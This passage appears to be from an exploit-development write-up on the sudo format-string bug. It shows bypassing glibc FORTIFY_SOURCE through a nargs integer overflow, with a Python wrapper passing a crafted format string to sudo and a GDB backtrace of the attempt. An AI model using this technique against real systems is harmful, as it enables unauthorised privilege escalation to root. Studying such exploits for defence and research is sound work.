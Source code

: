 ### Bypassing FORTIFY_SOURCE

We just follow <a href="http://www.phrack.org/issues.html?issue=67&id=9&mode=txt" target="_blank">&#8220;A Eulogy for Format Strings&#8221;</a> article from Phrack #67 by Captain Planet wit very detail steps to bypass FORTIFY\_SOURCE. In summary, there is an integer overflow bug in FORTIFY\_SOURCE patch, by exploiting this we can turn off <span style="line-height: normal">_IO_FLAGS2_FORTIFY bit in file stream and use &#8220;%n&#8221; operation from a writable address. Following steps will be done:</span><span style="line-height: normal"> </span>

1.  Set nargs to a big value so (nargs \* 4) will be truncated to a small integer value, the perfect value is nargs = 0&#215;40000000, so nargs \* 4 = 0. The format string to achieve this looks like: &#8220;%*1073741824$&#8221;
2.  <span style="line-height: normal">Turn off </span>\_IO\_FLAGS2_FORTIFY on stderr file stream
3.  Reset nargs = 0 to bypass check loop

Let examine #2 and #3 in detail. We create a wrapper (sudo-exploit.py) then fire a GDB session:

<pre class="brush: python; title: ; notranslate" title="">#!/usr/bin/env python
import os
import sys

def exploit(vuln):
    fmtstring = "%*123$ %*456$ %1073741824$"
    args = [fmtstring, "-D9"]
    env = os.environ
    os.execve(vuln, args, env)

if __name__ == "__main__":
    if len(sys.argv) &lt; 2:
        usage()
    else:
        exploit(sys.argv[1])
</pre>

<pre class="brush: plain; title: ; notranslate" title=""># ulimit -s unlimited
# gdb -q /usr/bin/sudo
Reading symbols from /usr/bin/sudo...Reading symbols from /usr/lib/debug/usr/bin/sudo.debug...done.
done.
gdb$ set exec-wrapper ./sudo-exploit.py
gdb$ run
process 2149 is executing new program: /usr/bin/sudo
*** invalid %N$ use detected ***

Program received signal SIGABRT, Aborted.
gdb$ bt
#0  0x40038416 in ?? ()
#1  0x400bc98f in __GI_raise (sig=0x6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:64
#2  0x400be2d5 in __GI_abort () at abort.c:91
#3  0x400fbe3a in __libc_message (do_abort=0x1, fmt=0x401f3dea "%s") at ../sysdeps/unix/sysv/linux/libc_fatal.c:198
#4  0x400fbf64 in __GI___libc_fatal (message=0x401f5a6c "*** invalid %N$ use detected ***n") at ../sysdeps/unix/sysv/linux/libc_fatal.c:209
#5  0x400d1df5 in _IO_vfprintf_internal (s=0xbff42498, format=&lt;optimized out&gt;, ap=0xbff42b78  &lt;incomplete sequence 340&gt;) at vfprintf.c:1771
#6  0x400d566b in buffered_vfprintf (s=0x40234920, format=&lt;optimized out&gt;, args=&lt;optimized out&gt;) at vfprintf.c:2207
#7  0x400d0cad in _IO_vfprintf_internal (s=0x40234920, format=0x4023b958 "%*123$ %*456$ %1073741824$: settings: %s=%sn", ap=0xbff42b78  &lt;incomplete sequence 340&gt;) at vfprintf.c:1256
#8  0x401958a1 in ___vfprintf_chk (fp=0x40234920, flag=0x1, format=0x4023b958 "%*123$ %*456$ %1073741824$: settings: %s=%sn", ap=0xbff42b78  &lt;incomplete sequence 340&gt;) at vfprintf_chk.c:35
#9  0x400094a0 in vfprintf (__ap=0xbff42b78  &lt;incomplete sequence 340&gt;, __fmt=&lt;optimized out&gt;, __stream=&lt;optimized out&gt;) at /usr/include/bits/stdio2.h:128
#10 sudo_debug (level=0x9, fmt=0x4000dff3 "settings: %s=%s") at ./sudo.c:1202
#11 0x400082cd in parse_args (argc=0x1, argv=0x4023b730, nargc=0xbff42d20, nargv=0xbff42d24, settingsp=0xbff42d28, env_addp=0xbff42d2c) at ./parse_args.c:413

 [1]: http://en.wikipedia.org/wiki/Position-independent_code#Position-independent_executables